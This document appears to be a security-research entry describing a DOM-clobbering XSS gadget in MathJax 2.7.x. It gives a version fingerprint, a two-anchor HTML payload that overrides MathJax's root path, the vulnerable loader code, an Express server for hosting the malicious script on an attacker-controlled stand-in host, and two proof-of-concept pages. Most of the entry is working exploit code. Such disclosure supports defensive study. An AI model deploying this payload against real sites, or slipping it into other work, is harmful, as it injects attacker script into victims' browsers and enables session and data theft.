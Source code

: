 ## MathJax

### Meta

+ Library: MathJax
+ Stars: 10.1K
+ Version: v2.7.x
+ Fingerprint: `MathJax.version == "2.7.2"`
+ Payload: ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk


### Library

URL: 
+ `https://cdn.jsdelivr.net/npm/mathjax@2/MathJax.js`
+ `https://www.mathjax.org/MathJax-v2-7-9-available/`


### Vulnerable Code Snippet

```javascript
if (document.getElementById && document.childNodes && document.createElement) {
    if (!(window.MathJax && MathJax.Hub)) {
        if (window.MathJax) {
            window.MathJax = {
                AuthorConfig: window.MathJax
            }
        } else {
            window.MathJax = {}
        }
```
```javascript
MathJax.Hub.Startup = {
    script: "",
    queue: MathJax.Callback.Queue(),
    signal: MathJax.Callback.Signal("Startup"),
    params: {},
    Config: function() {
        this.queue.Push(["Post", this.signal, "Begin Config"]);
        if (MathJax.AuthorConfig && MathJax.AuthorConfig.root) {
            MathJax.Ajax.config.root = MathJax.AuthorConfig.root
        }
```
```javascript
fileURL: function(j) {
  var i;
  while ((i = j.match(/^\[([-._a-z0-9]+)\]/i)) && b.hasOwnProperty(i[1])) {
      j = (b[i[1]] || this.config.root) + j.substr(i[1].length + 2) // Loading MathJax.AuthorConfig.root and type coercice to String
  }
  return j
}
```
```javascript
Load: function(k, m) {
  m = a.Callback(m);
  var l;
  if (k instanceof Object) {
      for (var j in k) {
          if (k.hasOwnProperty(j)) {
              l = j.toUpperCase();
              k = k[j]
          }
      }
  } else {
      l = k.split(/\./).pop().toUpperCase()
  }
  k = this.fileURL(k);
  if (this.loading[k]) {
      this.addHook(k, m)
  } else {
      this.head = h(this.head);
      if (this.loader[l]) {
          this.loader[l].call(this, k, m) // Calls loader['JS'] below

```

```javascript
loader: {
  JS: function(k, m) {
      var j = this.fileName(k);
      var i = document.createElement("script");
      var l = a.Callback(["loadTimeout", this, k]);
      this.loading[k] = {
          callback: m,
          timeout: setTimeout(l, this.timeout),
          status: this.STATUS.OK,
          script: i
      };
      this.loading[k].message = a.Message.File(j);
      i.onerror = l;
      i.type = "text/javascript";
      i.src = k + this.fileRev(j);
      this.head.appendChild(i)
  }
```

## PoC

Please note that for the following proof of concept, you will need to replace `xxx.xxx.xxx` with your own server address to host the malicious script and configure the URL to route `//config/TeX-AMS-MML_HTMLorMML.js`.
```
const express = require('express');
const path = require('path');

const app = express();
const port = 3000; 

// Middleware to normalize double slashes in the URL path
app.use((req, res, next) => {
  req.url = req.url.replace(/\/\//g, '/');
  next();
});

app.get('/config/TeX-AMS-MML_HTMLorMML.js', (req, res) => {
  const filePath = path.join(__dirname, 'poc', 'TeX-AMS-MML_HTMLorMML.js');
  res.sendFile(filePath);
});

// Start the server
app.listen(port, () => {
  console.log(`Server is running at http://localhost:${port}`);
});
```


### PoC #1
```html

<a id="MathJax"></a>
<a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>

<script>
	(function() {
		  var script = document.createElement("script");
		  script.type = "text/javascript";
		  script.src = "https://mathjax.rstudio.com/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML";
		  document.getElementsByTagName("head")[0].appendChild(script);
		}
	)();
</script>
```

### PoC #2
```html
<a id="MathJax"></a>
<a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>

<script>
	(function() {
		  var script = document.createElement("script");
		  script.type = "text/javascript";
		  script.src = "https://mathjax.rstudio.com/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML";
		  document.getElementsByTagName("head")[0].appendChild(script);
		}
	)();
</script>
```
